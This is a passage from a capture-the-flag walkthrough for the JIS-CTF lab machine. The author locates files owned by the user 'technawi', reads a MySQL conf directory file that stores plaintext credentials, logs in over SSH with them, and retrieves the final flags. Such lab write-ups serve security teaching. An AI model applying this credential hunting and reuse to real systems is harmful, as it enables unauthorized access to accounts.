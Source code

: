 Two more flags to go! As stated in the hint, we can't access the `flag.txt` file. 

{% highlight bash %}
$ cat flag.txt
cat: flag.txt: Permission denied
{% endhighlight %}

After a trial and error marathon, I've found the hidden file with this simple `find` command listing all files owned by `technawi`. 

{% highlight bash %}
$ find / -user technawi 2>/dev/null
/etc/mysql/conf.d/credentials.txt
/var/www/html/flag.txt
/home/technawi
/home/technawi/.cache
/home/technawi/.bash_history
/home/technawi/.sudo_as_admin_successful
/home/technawi/.profile
/home/technawi/.bashrc
/home/technawi/.bash_logout
{% endhighlight %}

Now we can take a look at the credentials. 

{% highlight bash %}
$ cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
{% endhighlight %}

Now let's login with `ssh` into that account and retrieve the final flag. 

{% highlight bash %}
root@kali:~/vulnhub/jis-ctf# ssh technawi@10.0.0.5
technawi@10.0.0.5's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

114 packages can be updated.
1 update is a security update.


Last login: Fri Apr 21 17:22:16 2017
technawi@Jordaninfosec-CTF01:~$ cd /var/www/html
technawi@Jordaninfosec-CTF01:/var/www/html$ ls -la
total 60
drwxr-xr-x 8 www-data www-data 4096 Apr 21  2017 .
drwxr-xr-x 3 www-data www-data 4096 Apr 18  2017 ..
drwxrwxr-x 2 www-data www-data 4096 Apr 21  2017 admin_area
drwx------ 5 www-data www-data 4096 Apr 19  2017 assets
-rw-r--r-- 1 www-data www-data  306 Apr 19  2017 check_login.php
drwx------ 2 www-data www-data 4096 Apr 19  2017 css
drwxr-xr-x 2 www-data www-data 4096 Apr 21  2017 flag
-rw-r----- 1 technawi technawi  132 Apr 21  2017 flag.txt
-rw-r--r-- 1 www-data www-data  145 Apr 21  2017 hint.txt
-rw-rw-r-- 1 www-data www-data 1966 Apr 19  2017 index.php
drwx------ 2 www-data www-data 4096 Apr 19  2017 js
-rw-rw-r-- 1 www-data www-data 1485 Apr 19  2017 login.php
-rw-r--r-- 1 www-data www-data  128 Apr 19  2017 logout.php
-rw-rw-r-- 1 www-data www-data  160 Apr 19  2017 robots.txt
drwxrwxr-x 2 www-data www-data 4096 Jun 27 11:38 uploaded_files
technawi@Jordaninfosec-CTF01:/var/www/html$ cat flag.txt
The 5th flag is : {5473215946785213456975249}